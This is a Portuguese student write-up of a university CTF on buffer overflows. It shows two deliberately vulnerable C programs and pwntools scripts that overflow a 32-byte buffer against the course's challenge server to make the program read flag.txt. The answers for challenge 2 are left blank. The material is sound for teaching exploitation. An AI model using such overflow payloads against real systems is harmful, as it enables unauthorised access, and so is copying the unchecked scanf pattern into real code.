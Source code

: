 # CTF 3 - Buffer Overflow

## Desafio 1

> No primeiro desafio, temos um programa ```main.c``` com o seguinte código:

```c
#include <stdio.h>
#include <stdlib.h>

int main() {
    char meme_file[8] = "mem.txt\0";
    char buffer[32];

    printf("Try to unlock the flag.\n");
    printf("Show me what you got:");
    fflush(stdout);
    scanf("%40s", &buffer);

    printf("Echo %s\n", buffer);

    printf("I like what you got!\n");
    
    FILE *fd = fopen(meme_file,"r");
    
    while(1){
        if(fd != NULL && fgets(buffer, 32, fd) != NULL) {
            printf("%s", buffer);
        } else {
            break;
        }
    }


    fflush(stdout);
    
    return 0;
}
```

> 1. Existe algum ficheiro que é aberto e lido pelo programa?

<br>

> 1. O programa vai abrir o ficheiro `mem.txt` apartir da função `fopen()` e depois vai ler os conteúdos desse ficheiro com a função `fgets()`.

<br>

> 2. Existe alguma forma de controlar o ficheiro que é aberto?

<br>

> 2. Sim, existe uma vulnerabilidade que permite controlar o ficheiro que é aberto. O nome do ficheiro a ser aberto é "mem.txt". No entanto, antes de abrir o ficheiro, o programa lê um _buffer_ de entrada de 40 _bytes_ com ```scanf()``` e armazena-o em `buffer`. Isso significa que, através de um _buffer overflow_, podemos controlar o nome do ficheiro que é aberto, substituindo o conteúdo do _buffer_ com o nome do ficheiro desejado.

<br>

> 3. Existe algum buffer-overflow? Se sim, o que é que podes fazer?

<br>

> 3. Sim, temos um _buffer_ de 32 _bytes_, mas estamos a ler 40 _bytes_ no ```scanf()```, o que resulta numa vulnerabilidade de _buffer overflow_ . Portanto, só precisamos de inserir 32 caracteres, seguidos pelo nome do ficheiro que contém a _flag_ (```flag.txt```) e assim obtemos a _flag_ para este desafio.

<br>

> Com essas informações, alteramos o ```exploit-example.py``` da seguinte forma:

```python
#!/usr/bin/python3
from pwn import *

DEBUG = False

if DEBUG:
    r = process('./program')
else:
    r = remote('ctf-fsi.fe.up.pt', 4003)

r.recvuntil(b":")
r.sendline(b"zzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzflag.txt\0")
r.interactive()
```

> Correndo este este _script_ com ```python3 exploit-example.py``` no terminal é nos _outputted_ a _flag_ deste desafio (figura abaixo).

![flag](images/ctf3/desafio1/flag.png)


## Desafio 2

> No segundo desafio, temos um programa ```main.c``` com o seguinte código:

```c
#include <stdio.h>
#include <stdlib.h>

int main() {
    char meme_file[9] = "mem.txt\0\0";
    char val[4] = "\xef\xbe\xad\xde";
    char buffer[32];

    printf("Try to unlock the flag.\n");
    printf("Show me what you got:");
    fflush(stdout);
    scanf("%45s", &buffer);
    if(*(int*)val == 0xfefc2324) {
        printf("I like what you got!\n");
        
        FILE *fd = fopen(meme_file,"r");
        
        while(1){
            if(fd != NULL && fgets(buffer, 32, fd) != NULL) {
                printf("%s", buffer);
            } else {
                break;
            }
        }
    } else {
        printf("You gave me this %s and the value was %p. Disqualified!\n", meme_file, *(long*)val);
    }

    fflush(stdout);
    
    return 0;
}
```

> 1. Que alterações foram feitas?

<br>

> 1. 

<br>

> 2. Mitigam na totalidade o problema?

<br>

> 2. 

<br>

> 3. É possível ultrapassar a mitigação usando uma técnica similar à que foi utilizada anteriormente?

<br>

> 3. 

<br>

> Com essas informações, alteramos o ```exploit-example.py``` da seguinte forma:

```python
#!/usr/bin/python3
from pwn import *

DEBUG = False

if DEBUG:
    r = process('./program')
else:
    r = remote('ctf-fsi.fe.up.pt', 4000)

r.recvuntil(b":")
r.sendline(b"zzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzz\x24\x23\xfc\xfeflag.txt\0")
r.interactive()
```

> Correndo este este _script_ com ```python3 exploit-example.py``` no terminal é nos _outputted_ a _flag_ deste desafio (figura abaixo).

![flag](images/ctf3/desafio2/flag.png)




